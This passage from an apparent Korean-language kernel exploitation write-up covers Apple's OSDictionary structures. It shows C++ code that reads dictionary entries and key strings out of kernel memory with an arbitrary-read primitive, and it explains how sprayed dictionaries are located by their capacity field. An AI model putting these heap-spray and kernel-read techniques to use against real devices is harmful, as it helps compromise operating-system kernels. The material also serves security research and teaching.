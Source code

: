```cpp
    dict->items = (struct kDictEntry *)ptr;
    ptr += sizeof(struct kDictEntry) * dict->cap;
    dict->names = (char **)ptr;
    ptr += sizeof(char *) * dict->cap;
    for (int i = 0; i < dict->cap; i++) {
        dict->names[i] = ptr;
        ptr += 256;
    }
    INFO("dict %#llx, items %#llx, count %u, capacity %u\n",
            dict->self_addr, dict->items_addr, dict->count, dict->cap);
	
    alloc_size = sizeof(struct kDictEntry) * dict->cap;
    kreadbuf(dict->items_addr, dict->items, alloc_size);
    for (int i = 0; i < dict->count; i++) {
        char obj[0x18];
        kreadbuf(dict->items[i].key, obj, sizeof(obj));
        // OSSymbol
        uint32_t len = *(uint32_t *)(obj + 0xc) >> 14;
        if (len >= 256) {
            len = 255;
        }
        uint64_t string = *(uint64_t *)(obj + 0x10);	//0x10 = p/x offsetof(OSString, string)
        kreadbuf(string, dict->names[i], len);
        dict->names[i][len] = 0;
        // INFO("    -> %s\n", dict->names[i]);
    }
    return dict;
}

```

이제 딕셔너리 내에 있는 오브젝트 주소를 가져올 수 있다.

해당 오브젝트 타입은 OSArray이거나 OSDictionary 등이 될 수 있는데,

```cpp
dict = kernel_fetch_dict(userspaceValueDicts);
...
    for (int i = 0; i < dict->count; i++) {
		if(dict->items[i].value) {
```

우리는 `args->xml[i++] = kOSSerializeDictionary | capacity;`코드처럼 `capacity`와 같이 `kOSSerializeDictionary` 를 선언하여 Dictionary를 스프레이하였기 때문에, 해당 구조체를 알아보면 된다.

OSDictionary 구조체 중 `capacity` 필드는 +0x18 오프셋에 위치한다.

할당시킨 영역 크기는 82MB이므로, 해당 크기를 참고해서 
OSDictionary 구조체의 capacity 필드를 읽었을때 서로 일치하는지 확인하면 된다.

```cpp
00000000 struct __cppobj OSDictionary : OSCollection // sizeof=0x28
00000000 {
00000014     unsigned int count;
00000018     unsigned int capacity;
0000001C     unsigned int capacityIncrement;
00000020     OSDictionary::dictEntry *dictionary;
00000028 };
```
